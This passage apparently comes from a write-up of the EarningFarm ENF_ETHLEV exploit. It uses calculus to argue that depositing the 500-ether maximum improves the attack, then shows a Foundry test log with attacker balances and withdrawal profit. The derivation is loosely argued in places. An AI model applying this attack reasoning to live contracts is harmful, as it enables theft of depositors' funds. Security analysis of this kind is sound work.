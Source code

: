 Next, we just need to do some calculus. If you're not interested, feel free to skip directly to the conclusion section :)

1. Take the derivative of the function with respect to y:

`f'(y) = (x*(x + y) - x*y) / (x + y)^2`

1.  Set the derivative equal to zero and solve for y:

    `(x*(x + y) - x*y) / (x + y)^2 = 0`
2.  Simplify the equation:

    `x*(x + y) - xy = 0`

    `x^2 + xy - x*y = 0`

    `x^2 = 0`
3.  Solve for y:

    Since `x^2` is always greater than or equal to zero, there is no real solution for y that would make the derivative equal to zero. This means that the function does not have any critical points where the derivative is zero.
4.  Analyze the sign of the derivative:

    Since the derivative is never zero, you need to determine its sign. Plug in a value of y greater than zero (e.g., y = 1) into the derivative:

    `f'(1) = (x*(x + 1) - x*1) / (x + 1)^2`

    `= (x^2 + x - x) / (x + 1)^2`

    `= x^2 / (x + 1)^2`\
    Since `x^2` is always positive and `(x + 1)^2` is always positive (as both are squares), `f'(1)` is positive. This means that the function is increasing for y > 0.
5.  Determine the behavior as y approaches infinity:

    As y approaches infinity, the value of `f(y)` approaches x because the `x*y` term dominates the denominator `(x + y)`. This is because y grows much larger compared to x, and `y/(x + y)` becomes negligible.
6.  Maximize the function:

    Since the function is increasing for `y > 0` and approaches x as y approaches infinity, you can conclude that the maximum value of the function f(y) is x.

    **In conclusion, to maximize the function x\*y / (x + y) with a known value of x, set y to infinity. This will result in the maximum value of x.**

Let's go back to the ENF\_ETHLEV contract code and find that it has a maximum limit for the amount of ETH deposited by users, set at maxDeposit, which is 500 ether.

So, let's attempt to deposit 500 ether and perform the attack once again.

```markdown
Running 1 test for test/20230809_EarningFarm_exp_4.t.sol:ContractTest
[PASS] testExploit() (gas: 4014028)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  500000000000000000000
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  500000000000000000000
  Exchange input:  1587301587301587301587 1587301587301587301587
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1586566199378081035496 1587301587301587301587
  [*] Attacker's ether balance after deposit: 9500.000000000000000000
  [*] Attacker's LP share after deposit: 461.262551644732899788
  Cont Withdraw:  498953010905994930719 498953010905994930719
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9998.953010905994930719
```